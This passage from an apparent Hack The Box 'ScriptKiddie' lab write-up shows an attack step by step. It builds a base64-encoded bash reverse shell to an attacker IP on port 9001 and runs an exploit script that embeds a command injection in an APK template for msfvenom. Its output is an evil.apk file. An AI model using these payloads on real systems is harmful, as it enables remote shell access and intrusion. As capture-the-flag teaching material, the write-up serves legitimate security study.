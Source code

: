 So the payload should look like this:

```python
payload = 'echo "YmFzaCAtYyDigJhiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIxMS85MDAxIDA+JjHigJkK" | base64 -d | bash'
```

We can test this works with something harmless:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "id" | base64
aWQK
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "aWQK" | base64 -d | bash
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

Awesome. Now let's try running it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ python3 gen-apk.py 
[+] Manufacturing evil apkfile
Payload: echo "YmFzaCAtYyDigJhiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIxMS85MDAxIDA+JjHigJkK" | base64 -d | bash
-dname: CN='|echo ZWNobyAiWW1GemFDQXRZeURpZ0poaVlYTm9JQzFwSUQ0bUlDOWtaWFl2ZEdOd0x6RXdMakV3TGpFMkxqSXhNUzg1TURBeElEQStKakhpZ0prSyIgfCBiYXNlNjQgLWQgfCBiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmphrdxir6g/evil.apk
Do: msfvenom -x /tmp/tmphrdxir6g/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

We can submit this template to the generator. Again, the choice of `lhost` doesn't matter:

![[Pasted image 20210612141104.png]]

We click generate, and the page hangs for a while. Eventually, we receive this back to our shell:

![[Pasted image 20210612141148.png]]

